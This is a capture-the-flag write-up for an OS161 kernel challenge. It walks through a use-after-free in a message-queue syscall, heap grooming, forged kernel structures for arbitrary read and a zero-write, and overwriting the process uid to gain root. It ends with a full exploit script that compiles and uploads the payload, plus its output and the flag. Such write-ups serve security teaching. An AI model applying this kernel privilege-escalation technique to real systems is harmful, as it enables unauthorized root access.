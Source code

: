 # COMP3891: ASST5

## Authors

- Jarrod Cameron

## Category

- Binary Exploitation

## Description

The secret OS assignment no one has hear of... ASST5.

`http://pwn.unswsecurity.com:3891/`

The flag is in the format `SKYLIGHT{...}`

## Difficulty

- Child's Play

## Points

300

## Files

- files.zip: Contains source code, compiled binaries, pre-compiled tools,
  script to compile, and script to run executable

## Solution

<details>
<summary>Spoiler</summary>

### Idea


A use after free in the link list implementation allows us to corrupt the heap.
This can be leveraged to:
- Read arbitrary data
- Set any location in memory to 0.

Using these two primitive we can trace kernel object to overwrite the `uid` of
the current process. Finally, we use `readflag()` to read the flag into memory.

NOTE: The web UI allows OS161 to be run on the server side with the real flag.

### Walkthrough

#### 1. Understanding OS161

Looking at the `syscall()` function (`kern/arch/mips/syscall/syscall.c`) we can
see some system calls have been implmeneted:

- `write()`: Performs the well known write system call. Upon further inspection
  we see that it only supports `stdin` and `stdout`.
- `getuid()`: Get the user ID of the current process.
- `readflag()`: Reads the flag from disk and copys it to the user's address
  space. However, this system call only works if you are the root user.
- `sys_mq_open()`: Creates a message queue.
- `sys_mq_close()`: Closes a message queue.
- `sys_mq_send()`: Pushes a message onto the message queue.
- `sys_mq_recv()`: Receives a message off the message queue.
- `sys_mq_clear()`: Removes all messages from the message queue but does not
  free the message queue.

#### 2. Finding the vulnerability

After viewing the implementation of the message queue system calls
(`mq_syscalls.c`) we can see the bug is in `sys_mq_clear()`. The bug is that
each of the messages in the message queue are freed but the `front` and `back`
pointers still point to the freed memory. In other words, this is a "use after
free".

#### 3. Forging a fake message

The heap in OS161 works similar to the glibc heap. The take aways are:
- freed objects of similar size are stored in a queue
- When an object is allocated it is dequeued off the free list (according to
  its size)

Using the following code we can do some heap feng shui (aka heap grooming):

```c
#define BIG "AAAABBBBCCCCDDDD" \
        "AAAABBBBCCCCDDDD" \
        "AAAABBBBCCCCDDDD" \
        "AAAABBBBCCCCDDDD" \
        "AAAABBBBCCCCDDDD" \
        "AAAABBBBCCCCDDDD" \
        "AAAABBBBCCCCDDDD" \
        "AAAABBBBCCCCDDDD"

int mq1, mq2, mq3;

mq1 = mq_open();
mq2 = mq_open();
mq3 = mq_open();

mq_send(mq1, BIG, sizeof(BIG));
mq_send(mq2, BIG, sizeof(BIG));

mq_clear(mq1);
mq_clear(mq2);
```

After executing the above code `mq1` and `mq2` will have dangling `front`
pointers.

Calling `mq_send(mq3, ptr, 12)` will create a message of 12 bytes (the same
size as a `struct message`). If we can forge our own `message` what values
would we use?

Since our end goal is to overwrite `curproc->uid` to zero (required by
`readflag()`) we should try to find `curproc` in memory. Since the objects in
the heap are randomised (see `kheap_randomisation()` in `kern/vm/kmalloc.c`) we
can't assume `curproc` will be in the same location every time. Fortunatly we
can trace other objects in the heap!

#### 4. Traversing objects in the heap

`cputhreads[]` (in `kern/arch/mips/thread/cpu.c`) contains pointers for each of
the threads assigned to a specific CPU. By default OS161 only supports one
thread so the currently running thread should be stored in `&cputhreads[0]`.

Using the following code we can we the address of `cputhreads[0]`:

```sh
$ nm path/to/kernel | grep cputhreads
8003c150 B cputhreads
```

Using the following code we can create a forge a `message` object to reference
the `cputhreads[0]` value.

```
#define KERN_CPUTHREADS (0x8003c150)
#define PAGE_ADDR(n)    ((n) & 0xfffff000)
struct {
        void *next;
        size_t len;
        void *buf;
} __attribute__ ((aligned (4096))) fake;

printf("[-] Allocate \"fake\" message to overwrite MQ1's actual message\n");
fake.next = &fake,
fake.len = 4096,
fake.buf = (void *) PAGE_ADDR(KERN_CPUTHREADS);
mq_send(mq3, &fake, 12);
```

NOTE: `&fake` and `fake.buf` both need to be page aligned (one page is 4096
bytes). This is because of the `kfree()` implmenetation. `kfree()` will try to
free our object when called. If our object is not in the heap (e.g.
`cputhreads[0]`) then OS161 will assume that we are tring to free a page
(instead of a chunk). This will cause us to enter the `KASSERT()` function. If
our pointer is not page aligned then the `KASSERT()` function will fail and the
kernel will `panic()`.

NOTE: We set `fake.next` to `&fake` so we can continue to forge fake messages.

#### 5. Extracting curthread

Using the following code we can read in the page containing the pointer
referencing `curthread`:

```c
#define PAGE_OFFSET(n) ((n) & 0x00000fff)
unsigned char buf[4096] __attribute__ ((aligned (4096))) = {0};

unsigned int curthread_ptr
mq_recv(mq1, &buf, sizeof(buf));
curthread_ptr = *(unsigned int *) &buf[PAGE_OFFSET(KERN_CPUTHREADS)];
```

`curthread_ptr` pointer is now pointing to the currently running thread
object on the heap. By looking at `struct thread` (in `kern/include/thread.h`)
we can see that `t_proc` is at an offset of 0x54 bytes.

#### 6. Extracting curproc

Similar to the previous two steps, we use the `fake` struct to get the location
of `curproc`.

```
fake.next = &fake;
fake.len = 4096;
fake.buf = (void *) PAGE_ADDR(curthread_ptr + 0x54);
mq_recv(mq1, &buf, sizeof(buf));
curproc_ptr = *(unsigned int *) &buf[PAGE_OFFSET(curthread_ptr + 0x54)];
```

#### 7. Setting UID to zero

Looking at the `msg_dequeue()` (`kern/syscall/mq_syscalls.c`) we can see that
`message->next` is set to `NULL` when removed from the list. In other words,
`message_queue->front->next` to will set be set to `NULL`. If we control
`message_queue->front` we can write `NULL` to any location we like. If we can
set `curproc->uid` to `NULL` then we can call the `readflag()` syscall!

Looking at `struct proc` (in `kern/include/proc.h`) we can see that `uid` has
an offset of 0x18. Using the following code we can set `uid` to zero.

```c
fake.next = (void *) curproc_ptr + 0x18;
fake.len = 0;
fake.buf = NULL;
mq_recv(mq1, NULL, 0);
mq_recv(mq1, NULL, 0);
```

NOTE: We call `mq_recv(...)` the first time to store `curproc_ptr + 0x18` in
`message_queue->front`. Then we call `mq_recv(...)` again to set `uid` to zero.

#### 8. Read and print flag

Since we are root, we can now read the flag:

```c
char flag[260] = {0};
readflag(flag, sizeof(flag));
printf("[+] readflag() = \"%s\"\n", flag);
```

#### 9. Final Exploit

NOTE: You might need to change the last line based on required IP and port.

```
#!/bin/sh

# Exit on non-zero return status
set -e

pwnc="$(find -type f -name pwn.c)"

echo '
#include <stdio.h>
#include <unistd.h>
#include <assert.h>
#include <err.h>
#include <string.h>
#include <errno.h>

#define BIG "AAAABBBBCCCCDDDD" \
	"AAAABBBBCCCCDDDD" \
	"AAAABBBBCCCCDDDD" \
	"AAAABBBBCCCCDDDD" \
	"AAAABBBBCCCCDDDD" \
	"AAAABBBBCCCCDDDD" \
	"AAAABBBBCCCCDDDD" \
	"AAAABBBBCCCCDDDD"

#define KERN_CPUTHREADS (0x8003c150)

#define PAGE_OFFSET(n) ((n) & 0x00000fff)
#define PAGE_ADDR(n)   ((n) & 0xfffff000)

/* Forward declaration */
int mq_open(void);
int mq_send(int, const void *, size_t);
int mq_clear(int);
int readflag(char *, size_t);
int mq_recv(int, void *, size_t);

/* Buffer used for storing results. Must be page aligned to prevent KASSERT() */
unsigned char buf[4096] __attribute__ ((aligned (4096))) = {0};

/* Our fake message, must be page aligned to prevent KASSERT() */
struct {
	void *next;
	size_t len;
	void *buf;
} __attribute__ ((aligned (4096))) fake;

int
main (void)
{
	unsigned int curthread_ptr, curproc_ptr;
	int mq1, mq2, mq3;
	char flag[260] = {0};
	printf("\n");

	printf("[-] Create message queue 1,2, and 3\n");
	mq1 = mq_open();
	mq2 = mq_open();
	mq3 = mq_open();

	printf("[-] Allocate a big message for message queues 1 and 2\n");
	mq_send(mq1, BIG, sizeof(BIG));
	mq_send(mq2, BIG, sizeof(BIG));

	printf("[-] Clear message queues 1 and 2\n");
	mq_clear(mq1);
	mq_clear(mq2);

	printf("[-] Allocate \"fake\" message to overwrite MQ1s actual message\n");
	fake.next = &fake,
	fake.len = 4096,
	fake.buf = (void *) PAGE_ADDR(KERN_CPUTHREADS);
	mq_send(mq3, &fake, 12);

	printf("[-] Leak the address of curthread\n");
	mq_recv(mq1, &buf, sizeof(buf));
	curthread_ptr = *(unsigned int *) &buf[PAGE_OFFSET(KERN_CPUTHREADS)];
	printf("[+] &curthread = 0x%x\n", curthread_ptr);

	printf("[-] Leak the address of curproc\n");
	fake.next = &fake;
	fake.len = 4096;
	fake.buf = (void *) PAGE_ADDR(curthread_ptr + 0x54);
	mq_recv(mq1, &buf, sizeof(buf));
	curproc_ptr = *(unsigned int *) &buf[PAGE_OFFSET(curthread_ptr + 0x54)];
	printf("[+] &curproc = 0x%x\n", curproc_ptr);

	printf("[-] Set message_queue->front = &curproc->uid\n");
	fake.next = (void *) curproc_ptr + 0x18;
	fake.len = 0;
	fake.buf = NULL;
	mq_recv(mq1, NULL, 0);

	printf("[+] Set curproc->uid to 0!\n");
	mq_recv(mq1, NULL, 0);

	readflag(flag, sizeof(flag));
	printf("[+] readflag() = \"%s\"\n", flag);

	return 0;
}
' > "$pwnc"

bash ./compile_pwn.sh os161/ tools/
pwnbin="$(find -name pwn -type f | head -n1)"

curl -F pwnbin=@"$pwnbin" http://172.17.0.2:3891/exploit
```

```
$ bash run.sh
...
sys161: System/161 release 2.0.3, compiled Jun 28 2022 04:51:46

OS/161 base system version 2.0.3
Copyright (c) 2000, 2001-2005, 2008-2011, 2013, 2014
   President and Fellows of Harvard College.  All rights reserved.

Skylight Cyber's system version 0 (SKYCTF #1337)

264k physical memory available
Device probe...
lamebus0 (system main bus)
emu0 at lamebus0
ltrace0 at lamebus0
ltimer0 at lamebus0
beep0 at ltimer0
rtclock0 at ltimer0
lrandom0 at lamebus0
random0 at lrandom0
lser0 at lamebus0
con0 at lser0

cpu0: MIPS/161 (System/161 2.x) features 0x0
OS/161 kernel: p /bin/3ee418f5e91beea97d63fe7ab92e222d.bin
Operation took 0.114112640 seconds
OS/161 kernel [? for menu]:
[-] Create message queue 1,2, and 3
[-] Allocate a big message for message queues 1 and 2
[-] Clear message queues 1 and 2
[-] Allocate "fake" message to overwrite MQ1s actual message
[-] Leak the address of curthread
[+] &curthread = 0x8003ed8c
[-] Leak the address of curproc
[+] &curproc = 0x8003ee0c
[-] Set message_queue->front = &curproc->uid
[+] Set curproc->uid to 0!
[+] readflag() = "SKYLIGHT{Lo0k1nG_f0rWArD_t0_$3E1ng_$om3_KeRnEl_0DAyz_cb70}"
...
```

### Flag

```
SKYLIGHT{Lo0k1nG_f0rWArD_t0_$3E1ng_$om3_KeRnEl_0DAyz_cb70}
```

</details>

